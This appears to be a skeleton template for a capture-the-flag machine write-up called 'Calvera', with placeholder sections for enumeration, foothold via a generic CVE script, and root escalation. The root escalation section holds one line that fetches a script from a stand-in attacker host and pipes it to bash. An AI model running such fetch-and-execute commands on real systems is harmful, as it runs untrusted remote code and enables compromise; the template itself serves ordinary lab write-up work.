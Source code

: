 # Calvera

## Initial Enumeration

```bash
$ nmap
```

## Foothold

Description for how the user get's a foothold on the machine.

```bash
$ python cve-XXXX.py
```

## Root Escalation

Description for how the user get's access to the root or administrator account.

```bash
$ curl attacker/enum-script.sh | bash
```
